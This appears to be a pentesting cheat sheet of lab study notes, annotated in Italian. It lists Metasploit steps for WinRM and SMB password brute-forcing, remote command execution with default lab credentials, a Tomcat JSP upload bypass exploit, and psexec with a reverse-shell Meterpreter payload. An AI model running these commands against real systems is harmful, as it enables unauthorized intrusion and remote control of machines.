 	
## Winrm 5985-5986(https)
	• nmap --top-ports 7000 10.0.0.173
	• msfconsole -q && service postgresql start
	• use auxiliary/scanner/winrm/winrm_login
	  set RHOSTS 10.0.0.173
	  set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	  set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	  set VERBOSE false
	  exploit (esegue il brute force)
	• use auxiliary/scanner/winrm/winrm_auth_methods
	  set RHOSTS 10.0.0.173
	  exploit (vede quali metodi di auth sono abilitati)
	• use auxiliary/scanner/winrm/winrm_cmd
	  set RHOSTS 10.0.0.173
	  set USERNAME administrator
	  set PASSWORD tinkerbell
	  set CMD whoami
	  exploit (esegue direttamente e ritorna solo il comando mandato)
	• use exploit/windows/winrm/winrm_script_exec
	  set RHOSTS 10.0.0.173
	  set USERNAME administrator
	  set PASSWORD tinkerbell
	  set FORCE_VBS true
	  exploit (apre una sessione meterpreter)

## Apache Tomcat 8080
	• nmap --top-ports 65536 10.0.0.141
	• msfconsole
	• use exploit/multi/http/tomcat_jsp_upload_bypass
	  set RHOSTS 10.0.0.141
	  check (We are running a “ check ” command in the metasploit framework to make sure that if the target is vulnerable to 			jsp_upload_bypass or not.)
	  Exploit
## SMB 445
	• use exploit/windows/smb/psexec
	  set RHOSTS 10.0.31.252
	  set SMBUser Administrator
	  set SMBPass vagrant
	  set payload windows/x64/meterpreter/reverse_tcp
	  exploit
 	• use auxiliary/scanner/smb/smb_login
	  set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	  set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	  set RHOSTS 10.0.0.242
	  set VERBOSE false
	  Exploit (brute)


